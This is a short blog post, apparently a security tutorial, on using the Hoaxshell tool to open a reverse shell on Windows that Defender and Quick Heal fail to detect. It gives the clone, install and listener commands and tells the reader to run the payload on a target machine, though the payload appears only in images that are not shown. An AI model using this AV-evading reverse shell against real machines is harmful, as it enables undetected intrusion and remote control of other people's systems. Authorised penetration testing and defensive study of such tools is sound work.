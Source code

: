 ```yaml
---
title: Fully Undetectable Reverse Shells
date: '2022-10-12'
tags: ['writeup', 'cybersecurity']
draft: false
summary: Create a reverse shell which is fully undetectable by Win Defender and other anti virus
images: []
layout: PostLayout
canonicalUrl:
authors: ['default']
---
```


# Frustrated with AVs breaking your shells?

Not to worry anymore I got your back. I will show you how to create a reverse shell which is fully undetectable by Win Defender and other anti virus.

# Introducing [Hoaxshell](https://github.com/t3l3machus/hoaxshell)
![Hoaxshell](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-logo.png)

Hoaxshell is a reverse shell which as of writing this post is **completely undetectable** by Defender and other Anti Viruses.

# Setup
```bash
git clone https://github.com/t3l3machus/hoaxshell
cd hoaxshell
pip3 install -r requirements.txt
```

# Usage
```bash
python3 hoaxshell.py -h
```
![Usage](/static/images/blogs/fully-undetectable-reverse-shells/usage.png)

You need to start by providing an IP to listen on

1. ### Find your IP address
```bash
sudo ifconfig
```

2. ### Start the listener
```bash
python hoaxshell.py -s <Your IP here>
```
![Listener](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-start.png)

3. ### Run the giant monstrous payload on the target machine

![Exploit](/static/images/blogs/fully-undetectable-reverse-shells/exploit.png)

<br />

# You now have a shell 🔥🎊

And the best part? You can now run any command without being detected.

![Shell](/static/images/blogs/fully-undetectable-reverse-shells/shell.png)

## Running commands

![Commands](/static/images/blogs/fully-undetectable-reverse-shells/running-commands.png)

## Anti Virus Fool Proof

![AV](/static/images/blogs/fully-undetectable-reverse-shells/anti-virus.png)

Both **Defender** and **Quick Heal** are fooled by the payload and do not detect it.
